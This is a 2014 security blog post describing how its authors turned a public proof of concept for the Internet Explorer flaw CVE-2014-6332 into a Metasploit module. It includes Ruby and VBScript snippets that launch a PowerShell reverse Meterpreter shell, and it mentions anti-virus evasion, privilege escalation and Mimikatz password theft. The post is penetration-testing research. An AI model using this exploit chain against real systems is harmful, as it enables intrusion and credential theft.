 ```yaml
---
id: 158
title: 'CVE-2014-6332: it&#8217;s raining shells'
date: 2014-11-12T23:06:08+01:00
author: wesley
layout: post
permalink: /2014/11/cve-2014-6332-internet-explorer-msf-module/
---
```

This is a shared post by me ([@wesleyneelen](http://twitter.com/wesleyneelen)) and Rik van Duijn (<a href="http://twitter.com/rikvduijn" target="_blank">@rikvduijn</a>)

Today @yuange tweeted a proof of concept for CVE-2014-6223. [CVE-2014-6332](https://technet.microsoft.com/library/security/ms14-064) is a critical Internet Explorer vulnerability that was patched with MS-14-064. The POC was able to execute the application notepad.exe. We wanted to pop some actual shells with this so now the race began to find a way of executing more than just notepad of calc. The “great” thing is this vulnerability affects Windows 95 IE 3.0 until Windows 10 IE 11 from a pentesters perspective this is awesome from a blue team perspective this will make you cry.

<blockquote class="twitter-tweet" lang="nl">
  <p>
    CVE-2014-6332 alliedve.htm <a href="http://t.co/LeOhLFjnni">http://t.co/LeOhLFjnni</a> allie(win95+ie3-win10+ie11) dve copy by yuange in 2009.
  </p>
  
  <p>
    — yuange (@yuange75) <a href="https://twitter.com/yuange75/status/532407606644457472">12 november 2014</a>
  </p>
</blockquote>

We wanted to pop shells that’s why we created a Metasploit module, this allows us to adapt our exploit when needed and gives us the usability of the Metasploit framework. This gives the ability to start lots of different payloads supported by the Metasploit framework.<!--more--> To start the payloads, we decided to use Powershell. This has some advantages, Powershell is for example useful for bypassing anti-virus software, because it is able to inject payloads directly into memory. Next to this using newer versions of Windows we were unable to even run cmd.exe or other commands like ipconfig. Fun fact application whitelisting usually whitelists Powershell so use more Powershell! The original exploit runs the notepad.exe file in order to prove it was able to execute code. We modified this in order to execute the powershell.exe and inject a meterpreter into memory. First we modified the HTML page so its easy to handle within ruby, next we added the powershell.exe In order to see if it would actually execute.

{% highlight ruby %}
 def on_request_uri(cli, request)
 payl = cmd_psh_payload(payload.encoded,"x86",{ :remove_comspec => true })
 payl.slice! "powershell.exe "
{% endhighlight %}

the above code generates a complete powershell one liner for a payload we are using a reverse_tcp meterpreter shell but it could use something else.

{% highlight vbs %}
 function runmumaa()
 On Error Resume Next
 set shell=createobject("Shell.Application")
 shell.ShellExecute "powershell.exe", "#{payl}", "", "open", 1
 end function
{% endhighlight %}

The magic runmumaa() function, after safe mode is disabled this function is called and the actual shell is executed using the earlier generated Powershell payload. In the short time available to us we were unable to figure out how the exploit actually works the function setnotsafemode() seems to do the heavy lifting. Let’s see if we are able to pop a shell shall we? First we set up our exploit, we added our module to the path: /usr/share/metasploit-framework modules/exploit/windows/browser/ folder using name: ms14\_064\_ie\_olerce .rb. The module has various options which need to be configured, as stated earlier we used a reverse\_tcp meterpreter payload.

[<img class="alignnone size-full wp-image-174" src="https://forsec.nl/wp-content/uploads/2014/11/metasploit_prep.png" alt="metasploit_prep" width="1145" height="496" />](https://forsec.nl/wp-content/uploads/2014/11/metasploit_prep.png)

Next we started our handler and using internet explorer navigated to the url, we see a quick popup from powershell but this disappears quickly. Checking Netstat we see a connection to port 80 from the process “system” to our Kali VM.

[<img class="alignnone size-full wp-image-176" src="https://forsec.nl/wp-content/uploads/2014/11/netstat.png" alt="netstat" width="638" height="480" />](https://forsec.nl/wp-content/uploads/2014/11/netstat.png)

Checking metasploit we see we have gained a shell and are now able to execute system command’s maybe try out that fancy new privilege escalation exploit (exploit/windows/local/ms14\_058\_track\_popup\_menu) and use Mimikatz to read passwords in plaintext J.

[<img class="alignnone size-full wp-image-177" src="https://forsec.nl/wp-content/uploads/2014/11/shell.png" alt="shell" width="905" height="391" />](https://forsec.nl/wp-content/uploads/2014/11/shell.png)

<img class="alignnone size-full wp-image-188" src="https://forsec.nl/wp-content/uploads/2014/11/met_privesc.png" alt="met_privesc" width="736" height="201" /> 

Remember this is a quick and dirty POC Metasploit dev’s are probably yelling at their screens telling us how this is not how to build a proper module. They are right! But it works and with some work this could be a full-fledged Metasploit module.

The Metasploit module can be found here: [ms14\_064\_ie_olerce.rb](https://forsec.nl/wp-content/uploads/2014/11/ms14_064_ie_olerce.rb_.txt)

**UPDATE 28/11/2014: The module has been merged in to the [official Metasploit repository](http://www.rapid7.com/db/modules/exploit/windows/browser/ms14_064_ole_code_execution)**

_Please note: make sure to have the latest Metasploit installed._

For more details about the vulnerability: <http://securityintelligence.com/ibm-x-force-researcher-finds-significant-vulnerability-in-microsoft-windows/#.VGRnQfnF9nB>